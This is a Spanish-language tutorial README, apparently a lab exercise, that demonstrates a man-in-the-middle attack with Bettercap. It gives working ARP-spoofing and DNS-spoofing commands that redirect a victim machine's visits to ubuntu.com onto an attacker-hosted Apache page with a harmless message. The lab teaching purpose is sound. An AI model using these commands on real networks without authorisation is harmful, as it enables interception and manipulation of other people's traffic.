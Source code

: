 # Ataque Man in the Middle con Bettercap

<br>

<p align="center">
<img src="./Img/Logo.png">
</p>

<br>

## Que es un ataque Main in the Middle?

Ataque de intermediario ocurre cuando un atacante puede interceptar o manipular tráfico entre dos partes conocidas como víctima y receptor.

La víctima es aquella persona que envía un mensaje a otro individuo esperando una respuesta, mientras que el receptor es la parte que recibe la información para luego analizarla y responder a la solicitud enviada.

El atacante aparte de interceptar todos los datos que son enviados entre las dos partes podría llegar a manipular los datos para obtener información confidencial, modificar transferencias bancarias e incluso suplantar la identidad ya sea de la víctima o el receptor.

## Instalación

```
sudo apt-get install bettercap
```

<br>

## USO

Para hacer un ataque **MITM** tendremos que hacer un ataque **DNS Spoofing** a nuestra máquina windows.

Ahora usaremos con siguiente comandos

```
bettercap

set arp.spoof targets 192.168.1.10

arp.spoof on

set dns.spoof.domains ubuntu.com

set dns.spoof.address 192.168.1.20

dns.spoof on
```

Si vamos a la máquina víctima abrimos CMD y ejecutamos el siguiente comando

```
arp -a
```

<br>

<p align="center">
<img src="./Img/arp.jpg">
</p>

<br>

Como podemos ver tenemos como puerta de enlace la IP de nuestro kali Linux.

Ahora vamos a configurar nuestra pagina web e iniciar el servicio apache2

```
sudo su

cd /var/www/html

rm index.html

nano index.html
```

Y copiamos el siguiente codigo

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>MITM</title>
    <style type="text/css">
        .titulo{
            font-size: 30px;
        }
        .texto{
            font-size: 30px;
        }
    </style>
</head>
<body>
    <div align="center">
        <h1 class="Titulo">
            Ataque de Intermediario
        </h1>
        <div class="texto">
            Has sido Víctima de un DNS Spoofing
        </div>
    </div>
</body>
</html>
```

<br>

Ahora vamos a levantar el servidor apache2

```
service apache2 start
```

Como podemos ver al acceder a **ubuntu.com** en la máquina víctima nos sale el index.html de nuestro servidor apache2 de Kali Linux.

<br>

<p align="center">
<img src="./Img/ubuntu.png">
</p>

<br>

